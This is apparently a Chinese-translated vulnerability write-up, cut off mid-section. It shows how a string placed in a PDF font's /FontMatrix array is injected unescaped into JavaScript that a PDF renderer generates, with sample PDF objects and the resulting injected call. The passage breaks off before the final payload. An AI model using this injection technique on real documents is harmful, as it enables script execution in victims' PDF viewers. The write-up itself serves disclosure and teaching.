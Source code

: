  代码解读

复制代码

    `const properties = {       type,       name: fontName.name,       subtype,       file: fontFile,       ...       fontMatrix: dict.getArray("FontMatrix") || FONT_IDENTITY_MATRIX,       ...       bbox: descriptor.getArray("FontBBox") || dict.getArray("FontBBox"),       ascent: descriptor.get("Ascent"),       descent: descriptor.get("Descent"),       xHeight: descriptor.get("XHeight") || 0,       capHeight: descriptor.get("CapHeight") || 0,       flags: descriptor.get("Flags"),       italicAngle: descriptor.get("ItalicAngle") || 0,       ...     };`

在 PDF 格式中，字体定义由多个对象组成。`Font`，其`FontDescriptor`和实际`FontFile`。例如，这里由对象 1、2 和 3 表示：

javascript

 代码解读

复制代码

`1 0 obj <<   /Type /Font   /Subtype /Type1   /FontDescriptor 2 0 R   /BaseFont /FooBarFont >> endobj 2 0 obj <<   /Type /FontDescriptor   /FontName /FooBarFont   /FontFile 3 0 R   /ItalicAngle 0   /Flags 4 >> endobj 3 0 obj <<   /Length 100 >> ... (actual binary font data) ... endobj`

`dict`上述代码中的引用指的是对象。`Font`因此，我们应该能够定义一个自定义`FontMatrix`数组，如下所示：

css

 代码解读

复制代码

`1 0 obj <<   /Type /Font   /Subtype /Type1   /FontDescriptor 2 0 R   /BaseFont /FooBarFont   /FontMatrix [1 2 3 4 5 6]   % <----- >> endobj`

尝试执行此操作时，最初看起来似乎不起作用，因为`transform`生成的`Function`主体中的操作仍使用默认矩阵。但是，发生这种情况是因为字体文件本身正在覆盖该值。幸运的是，当使用没有内部`FontMatrix`定义的 Type1 字体时，PDF 指定的值_是_权威的，因为该`fontMatrix`值不会被覆盖。

现在我们可以从 PDF 对象控制此数组，我们拥有所需的所有灵活性，因为 PDF 支持的不仅仅是数字类型原语。让我们尝试插入字符串类型的值而不是数字（在 PDF 中，字符串由括号分隔）：

css

 代码解读

复制代码

`/FontMatrix [1 2 3 4 5 (foobar)]`

而且确实，明明是插入到`Function`体内了！

ini

 代码解读

复制代码

`c.save(); c.transform(1,2,3,4,5,foobar); c.scale(size,-size); c.moveTo(0,0); c.restore();`

漏洞利用及影响
-------

现在，插入任意 JavaScript 代码只需正确处理语法即可。这是一个触发警报的经典示例，首先关闭函数`c.transform(...)`，然后使用尾随括号：

css
